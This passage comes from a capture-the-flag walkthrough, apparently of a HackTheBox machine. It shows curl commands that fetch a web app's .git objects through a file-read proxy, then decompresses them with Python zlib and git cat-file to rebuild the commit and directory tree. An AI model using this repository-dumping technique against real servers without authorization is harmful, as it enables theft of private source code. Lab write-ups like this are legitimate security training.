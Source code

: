 ```

oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/objects/9c/17e5362e5ce2f30023992daad5b74cc562750b | tee .git/objects/9c/17e5362e5ce2f30023992daad5b74cc562750b
xA
0=,&m           nii`ʺ,ZAPH:S(\:Q:Of*/gIHy$
Qb_bhZi6G)?'W;'a>gf
i;/ҒE/

```

The results are not obvious. That’s because they are [zlib compressed](https://matthew-brett.github.io/curious-git/reading_git_objects.html). That article shows up to decompress them with Python:

```

oxdf@hacky$ python
Python 3.11.2 (main, Feb  8 2023, 14:49:25) [GCC 11.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import zlib 
>>> with open('.git/objects/9c/17e5362e5ce2f30023992daad5b74cc562750b', 'rb') as f:
...     compressed_contents = f.read()
... 
>>> decompressed_contents = zlib.decompress(compressed_contents)
>>> print(decompressed_contents.decode())
commit 219tree 30617cae3686895c80152d93a0568e3d0b6a0c49
parent a85ddf4be9e06aa275d26dfaa58ef407ad2c8526
author james <james@haxtables.htb> 1668104210 +0000
committer james <james@haxtables.htb> 1668104210 +0000

Updated scripts!

```

Alternatively, there’s a `git` subcommand, `cat-file` ([docs](https://git-scm.com/docs/git-cat-file), that will do this:

```

oxdf@hacky$ git cat-file -p 9c17e5362e5ce2f30023992daad5b74cc562750b
tree 30617cae3686895c80152d93a0568e3d0b6a0c49
parent a85ddf4be9e06aa275d26dfaa58ef407ad2c8526
author james <james@haxtables.htb> 1668104210 +0000
committer james <james@haxtables.htb> 1668104210 +0000

Updated scripts!

```

This object is built with a reference to another object, `30617cae3686895c80152d93a0568e3d0b6a0c49`. I’ll need to get that on into place using the same method:

```

oxdf@hacky$ mkdir .git/objects/30
oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/objects/30/617cae3686895c80152d93a0568e3d0b6a0c49 > .git/objects/30/617cae3686895c80152d93a0568e3d0b6a0c49
oxdf@hacky$ git cat-file -p 30617cae3686895c80152d93a0568e3d0b6a0c49
040000 tree 26c6c873fe81c801d731e417bf5d92e5bfa317d2    actions
040000 tree 9a515b22daea1a74bbcf5d348ad9339202a8edd6    assets
040000 tree 2aa032b5df9bbaeedff30b6e13be938e48cae5f4    includes
100644 blob 72f0e39a9438fc0f915f63e2f26b762eb170cf8b    index.php
040000 tree e074c833c28d3b024eeea724cf892a440f89a5aa    scripts
100644 blob ec9b154d84cab1888e2724c1083bf97eb57837c9    utils.php

```
